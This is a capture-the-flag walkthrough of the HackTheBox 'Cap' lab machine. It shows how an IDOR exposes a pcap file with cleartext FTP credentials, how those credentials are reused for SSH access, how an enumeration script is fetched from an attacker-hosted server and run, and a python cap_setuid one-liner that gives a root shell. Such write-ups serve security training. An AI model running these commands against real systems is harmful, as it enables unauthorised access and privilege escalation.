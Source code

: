 ```yaml
---
title: "Cap Write-Up"
date: 2025-08-07T18:24:26-05:00
draft: false
author: Jarpiano
tags:
    - WriteUp
image: /images/cap-banner.png
description:
toc:
center: true
---
```

# Cap (Easy) Box
Cap is a retired easy box from HackTheBox. It provides a light introduction into IDOR and Linux capability exploitation.

## Initial Foothold
Let's start off with enumerating the ports. We can use `nmap` for this task.

```bash
nmap <TARGET-IP>
```

This gives us three open ports for numbers 21, 22, and 80 for `ftp`, `ssh`, and `http` respectively. We can browse to the http server and we should be able to get the following webpage when we click on `Security Snapshot` on the left sidebar.

<img src="/images/cap-image1.png" width="900" alt="Preview Image" />
<br>
<br>

The data shown there is `0` for all categories. 

For the next step, we're expecting a IDOR vulnerability, but, even if we weren't, we should enumerate the `URL` to identify any resources that could be vulnerable. We can use `ffuf` for this.

With this situation, however, this isn't required. If we look at the `URL` on the `/data/` URL, we see that it's a number. Whenever we exit that page and return to it, that number increments by 1. We should replace that URL entry with a `0` like the following:

```url
http://<TARGET-IP>/data/0
```

Now our webpage should look the same as above. If we click the download button, we can obtain the `.pcap` file and open it on our Wireshark program.

On Wireshark, a short scroll to the `ftp` protocol packet entries shows cleartext credentials for the user `nathan`. 

<img src="/images/cap-image2.png" width="900" alt="Preview Image" />
<br>
<br>

If it hasn't been changed yet, we can probably use these credentials for the `ftp` service on the server. However, passwords are often used across accounts so we should try it on the `ssh` service as well.

When we do so, we're able to obtain `nathan` user access on the machine. We can find the `user.txt` file in the home directory of the user.

## Privilege Escalation

We should enumerate the machine for any misconfigurations or outdated settings. This can be done with automated programs such as `LinEnum.sh` and `linpeas.sh`. Either works, but let's use `LinEnum`. The script can be found in [this](https://github.com/rebootuser/LinEnum) GitHub repository.

We can pull it to our local machine with `wget`:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
```

After that, let's set up a Python server on our attack host:

```bash
python3 -m http.server 4444
```

Now on our target machine, we can `wget` the `LinEnum.sh` file.

```bash
wget <MY-IP>:4444/LinEnum.sh
```

Now, adjust the execution permissions with `chmod +x` and execute the file. 

Going through the output, we can see that the `/usr/bin/python3.8` binary has the `cap_setuid` capability. This is a known misconfiguration that can be exploited for privilege escalation. We can refer to get [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) for the escalation code:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

If we execute `whoami`, it should send back that we're now the `root` user.

From this point, we can navigate to the `/root` directory and `cat` our `root.txt` file to get the flag.

**Fin.**